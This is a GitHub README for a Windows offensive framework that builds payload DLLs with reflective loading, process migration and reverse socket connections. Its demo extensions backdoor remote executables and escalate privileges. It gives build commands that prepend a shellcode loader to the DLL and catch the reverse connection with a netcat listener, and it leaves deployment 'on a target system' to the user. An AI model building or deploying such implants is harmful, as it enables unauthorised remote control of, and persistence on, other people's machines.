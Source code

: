 Framework
=========

A framework for writing custom 64-bit Win32 payloads
in the form of a dll.

The framework provides some userspace tools for
the payloads:

 * Reflective loading
 * Process migration
 * Reverse socket conections
 
Several demo extension have been writen to do
a variety of tasks:

 * Backdoor DLLs and EXEs on remote host
 * Privledge elavation
 * Manipulate files
 * Manipulate processes
 

Building
--------

You will need:

 * Cygwin (64 bit) -- make, mingw64-x86_64-gcc-g++
 * Ruby (Cygwin's or native Window's version, doesn't matter)
 * Git (well duh)
 * Netcat
 * Nasm
 
Fire up cygwin

    git clone https://github.com/floomby/framework.git
    cd framework

Edit config.h to suit your need. The comments explain things.

    make dll

This builds frameserv.dll. It is up to you to get
it running on a target system. There is shellcode
in the shellcode directory to help you get started.

Assuming RPORT => 1234 and RHOST => localhost you
can do the following

    make tools
    cd shellcode/loader
    make
    ./loader | ruby >sc && cat ../../frameserv.dll >>sc
    (../../tools/sc-test/sc-test sc &) && nc -k -l 1234
    
Usage
-----

COMING SOON

Bugs
----

Right now I am aware of two bugs, both are minor

 * memory is not freeded properly on migration out of process
 * sc-test stays running for a couple minutes when launched as
   described in the instructions, this is due to it waiting
   for all the windsock threads to terminate before exiting
